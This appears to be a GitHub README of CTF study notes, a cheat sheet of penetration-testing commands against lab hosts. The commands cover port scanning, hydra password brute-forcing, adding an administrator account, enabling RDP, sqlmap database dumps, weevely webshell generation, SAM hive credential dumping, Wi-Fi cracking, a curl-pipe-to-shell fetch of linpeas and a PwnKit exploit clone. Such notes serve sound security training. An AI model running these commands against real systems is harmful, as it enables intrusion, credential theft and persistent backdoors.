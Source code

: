 # CTF Memo
## _nmap_
網路設備及服務掃描
```sh
sudo nmap 10.10.10.16  //1000 port
sudo nmap 10.10.10.16 -p-  //1-65535 port
sudo nmap 10.10.10.16 -sU -p53,139,161,1900,5353  //UDP port
sudo nmap 10.10.10.16 -p80 --reason  //REASON
sudo nmap 10.10.10.16 -p80 --open  //display only open port ip
sudo nmap 10.10.10.16 -O  //OS
sudo nmap 10.10.10.16 -sV  //VERSION
sudo nmap 10.10.10.16 -sVC -p445,3389  //VERSION + NSE
sudo nmap 10.10.10.* -sU -p161 --open  //SNMP
sudo nmap 10.10.10.16 -sU -p161 -sC  //使用 NSE 預設腳本
sudo nmap 10.10.10.16 -sU -p161 --script snmp-win32-users  //user account

```
## _snmp-check_
SNMP 設備列舉
```sh
sudo snmp-check 10.10.10.16
```
## _nbtscan_
NetBOIS 掃描
```sh
sudo nbtscan 10.10.10.1-254
```
## _hydra_
破密工具
```sh
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst ftp://10.10.10.16
hydra -l king -P /usr/share/wordlists/nmap.lst rdp://10.10.10.16
```
## _enum4linux_

列舉Windows訊息
```sh
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```
## _crackmapexec_
網域滲透工具
python3 -m pip install --upgrade impacket  (更新)
```sh
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
```
## _net_

```sh
net use \\10.10.10.16 slave /u:king
net view \\10.10.10.16
net user queen /add
net users
net localgroup Administrator queen /add
net localgroup Administrators
```
## _reg add_

新增機碼
```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
## _netstat_
網路狀態
```sh
netstat -an | findstr :3389
```
## _sqlmap_
SQL檢測注入工具
```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
sudo sqlmap -u "https://url" --forms --crawl=2 -dbs
```
## _weevely_
Webshell
```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```
## _wpscan_
WordPress安全性掃描工具
```sh
wpscan --url http://url -e u  //列舉使用者
wpscan --url http://url -P /usr/share/wordlists/nmap.lst  //破密
```
## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```
## _john_
破密工具
```sh
john secret.txt --format=raw-md5
```
## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```
## _impacket upgrade_

```sh
python3 -m pip install --upgrade impacket
```
## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
## _snow_

```sh
snow -C -p pass -m "message" text1.txt text2.txt
snow -C -p pass text2.txt text3.txt
```
## _mount_

```sh
apt install nfs-common
showmount -e 10.10.10.20
mount -t nfs 10.10.10.20:/home /mnt/nfs
mount -t cifs //10.10.10.20/C$ /mnt/smb -o username=king,password=slave
```
## _smbclient_

```sh
smbclient -U "kingdom\king"  //10.10.10.20/C$
```
## _others_

```sh
njRAT         //trajon
SNOW          //space
OpenStego     //picture
HashMyFiles
VeraCrypt
CrypTool
ophcrack
dir xxx.xxx /s/a/p   //find files
visudo
git clone https://github.com/ly4k/PwnKit.git    //CVE-2021-4034
https://crackstation.net/
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
```
## License

MIT
